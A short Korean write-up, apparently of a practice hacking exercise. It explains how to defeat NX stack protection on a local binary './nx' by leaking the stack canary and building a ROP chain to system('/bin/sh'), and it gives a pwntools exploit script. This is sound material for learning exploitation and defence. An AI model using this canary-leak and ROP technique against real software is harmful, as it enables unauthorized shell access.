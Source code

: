 
### 익스플로잇 포인트

- 현재 쉘 코드는 직접 실행이 차단 되어, **ROP 체인을 구성하여 우회**를 시도
- 다음과 같은 페이로드를 구성 함:
    - `ret` (스택 정렬용, 일부 libc에서 alignment 문제 해결용)
    - `pop rdi; ret` (첫 번째 인자를 설정하기 위한 가젯)
    - `/bin/sh` 문자열의 주소
    - `system@plt` 주소

> 이 ROP 체인은 결국 `system("/bin/sh")`를 호출하게 되어 쉘을 획득할 수 있으며, 이는 **실행 권한이 없는 스택(NX)이 설정된 환경에서의 우회 기법**이다.

---

### 파이썬 페이로드

```python
from pwn import *

p = process("./nx")
context.log_level = 'debug'

padding = b'A' * 57

p.sendafter(b'Buf: ', padding)
p.recvuntil(padding)
canary = u64(b'\x00' + p.recvn(7))

payload = b'A' * 56
payload += p64(canary)
payload += b'B' * 8

payload += p64(0x400596)  # ret
payload += p64(0x400853)  # pop rdi; ret
payload += p64(0x400874)  # "/bin/sh" 주소
payload += p64(0x4005d0)  # system@plt

p.sendafter(b'Buf: ', payload)

p.interactive()
```